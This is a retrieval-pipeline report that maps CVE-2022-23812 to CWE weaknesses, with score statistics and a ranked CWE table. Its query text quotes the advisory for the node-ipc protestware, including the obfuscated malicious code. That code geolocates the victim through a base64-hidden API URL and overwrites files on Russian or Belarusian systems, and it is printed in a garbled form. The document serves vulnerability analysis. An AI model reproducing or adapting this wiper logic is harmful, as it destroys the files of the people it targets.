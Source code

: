 # Raw Retriever Results for CVE-2022-23812

# Raw Retriever Results for CVE-2022-23812

## Query
This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note** from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code **Note** Dont run it! js import u from path import a from fs import o from https setTimeout(function () { const t = Math.round(Math.random() * 4) if (t > 1) { return } const n = Buffer.from(aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=, base64) // https//api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString(utf8), function (t) { t.on(data, function (t) { const n = Buffer.from(Li8=, base64) const o = Buffer.from(Li4v, base64) const r = Buffer.from(Li4vLi4v, base64) const f = Buffer.from(Lw==, base64) const c = Buffer.from(Y291bnRyeV9uYW1l, base64) const e = Buffer.from(cnVzc2lh, base64) const i = Buffer.from(YmVsYXJ1cw==, base64) try { const s = JSON.parse(t.toString(utf8)) const u = s[c.toString(utf8)].toLowerCase() const a = u.includes(e.toString(utf8)) || u.includes(i.toString(utf8)) // checks if country is Russia or Belarus if (a) { h(n.toString(utf8)) h(o.toString(utf8)) h(r.toString(utf8)) h(f.toString(utf8)) } } catch (t) {} }) }) }, Math.ceil(Math.random() * 1e3)) async function h(n = , o = ) { if (!a.existsSync(n)) { return } let r = [] try { r = a.readdirSync(n) } catch (t) {} const f = [] const c = Buffer.from(4p2k77iP, base64) for (var e = 0 e 0 ? f.push(...s) null } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString(utf8), function () {}) // overwrites file with ?? } catch (t) {} } } return f } const ssl = true export { ssl as default, ssl }

## Keyphrases
- **rootcause**: Malicious code within the package.
- **weakness**: Unintentional inclusion of malicious code and supply chain vulnerability.

## Score Statistics
| Retriever | Min | Max | Mean | Median | Count |
|-----------|-----|-----|------|--------|-------|
| Dense | 0.5365 | 0.6373 | 0.5495 | 0.5446 | 20 |
| Sparse | 1426.3657 | 8029.8405 | 1838.8043 | 1501.0505 | 20 |
| Graph | 1.6848 | 3.0654 | 1.9304 | 1.7680 | 20 |

## Graph Retriever Results (20)
| # | CWE ID | Name | Abstraction | Score | Mapping Usage |
|---|--------|------|-------------|-------|---------------|
| 1 | 22 | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') | base | 3.0654 | Allowed |
| 2 | 73 | External Control of File Name or Path | base | 2.2100 | Allowed |
| 3 | 170 | Improper Null Termination | base | 2.2100 | Allowed |
| 4 | 617 | Reachable Assertion | base | 2.2100 | Allowed |
| 5 | 476 | NULL Pointer Dereference | base | 2.2100 | Allowed |
| 6 | 98 | Improper Control of Filename for Include/Require Statement in PHP Program ('PHP Remote File Inclusion') | variant | 2.0856 | Allowed |
| 7 | 193 | Off-by-one Error | Base | 1.9219 | Allowed |
| 8 | 363 | Race Condition Enabling Link Following | base | 1.8252 | Allowed |
| 9 | 123 | Write-what-where Condition | base | 1.7680 | Allowed |
| 10 | 59 | Improper Link Resolution Before File Access ('Link Following') | base | 1.7680 | Allowed |